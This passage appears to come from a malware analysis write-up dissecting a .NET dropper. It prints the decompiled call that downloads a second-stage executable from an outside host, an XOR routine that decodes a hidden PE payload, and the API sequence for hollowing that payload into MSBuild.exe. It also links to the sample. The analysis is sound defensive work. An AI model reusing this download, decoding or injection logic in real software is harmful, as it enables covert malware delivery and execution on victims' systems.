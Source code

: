 After jumping around multiple case statements, eventually `Y4.pn.zcu("http://inijingo22dev.online/Tlv5quZrJBTUzqG.exe", "Tlv5quZrJBTUzqG.exe")` is called. This method creates a WebClient and downloads the specified file to the location `C:\Users\<user>\AppData\Local\Temp\Tlv5quZrJBTUzqG.exe`.  

This newly downloaded file is identical in structure to the original Setup.exe binary. This might be a persistence mechanism, but I don't see any methods called to establish persistence. It is possible the functionality may be in place but not implemented properly.  

I'll be honest here, the next bit I am a little confused about. The following is executed successfully:
```C#
ResourceManager resourceManager = new ResourceManager("jf221efESkp", GetExecutingAssembly())
```
However, there is no resource with that name. Maybe dnSpy failed to extract it, but I am not sure. The `Outimurs.dll` is [here](https://malshare.com/sample.php?action=detail&hash=214bba553a2b99bedc0a5ea3095498231fe628fa2642f7af4f592b15f5faa664) if any .NET gurus want to take a look.
{{< figure src="images/resources_outimurs.png" alt="resources_outimurs" position="center" >}}

Regardless, the contents of the resource are returned as a byte array. Next, a method loops over every byte of the array, performing the following action:
```C#
byte_array[num] = ( ( toInt32((byte_array[num] ^ string_array[num % array_array.length])) - toInt32(byte_array[(num + 1)]) ) + 256 ) % 256
```
It takes each byte, XORs it with a byte from the string "zDJqayZgb", then subtracts the integer value of the byte one position ahead of it in the byte array, adds 256 to the result, and then performs modulus 256. The final value is converted back into a byte and replaces the original byte.  

The loop runs while the iterator value is `<=` the array length, so the first element gets operated on twice, at the beginning of the loop and at the very end. After the loop is complete, the last byte of the array is removed.

The end result is a byte array starting with `4D 5A` -- looks like a PE header, probably the next stage of the malware.  

#### Process Injection

Once the byte array is created, the `Y4.pn.OcE()` method gets the current .NET common language runtime directory and prepends it to the string "MSBuild.exe", creating the string `C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe`. 

Note: A frozen version of MSBuild is included by default in .NET Framework 4, so a file should already exist in the location referenced by the string.

Next, `pn.RcF("C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe", byte_array)` is called. It is lengthy, so I'll list out the main points below.
```C#
struct Ti{
	IntPtr daw
	IntPtr wa1
	uint caz
	uint ISt }
	
CreateProcessA(path_to_MSBuild,  string.Empty, IntPtr.Zero, IntPtr.Zero, false, 134217732U, IntPtr.Zero, null, ref xa, ref ti)
	- dwCreationFlags: 0x08000004 -- CREATE_SUSPENDED and CREATE_NO_WINDOW
GetThreadContext(ti.wa1, thread_context_array)

ReadProcessMemory(ti.daw, thread_context_array[41] + 8, buffer, 4, false)
VirtualAllocEx(ta.daw, 0x00400000, 0x0001D000, 12288, 64)
	- Last argument, 64, translates to 0x40 or PAGE_EXECUTE_READWRITE
	- Argument 12288 translates to MEM_COMMIT & MEM_RESERVE -- ensures bytes of reserved memory are zeroed out
	- Allocate memory inside of MSBuild.exe, equivalent to the size of the byte_array
WriteProcessMemory(ta.daw, 0x00400000, byte_array, 0x00000400, ref num4)
	- Writes the first 1024 bytes of byte_array into MSBuild.exe at base address 0x00400000
	
BlockCopy(byte_array, 0x00000400, new_array, 0, new_array.Length)
```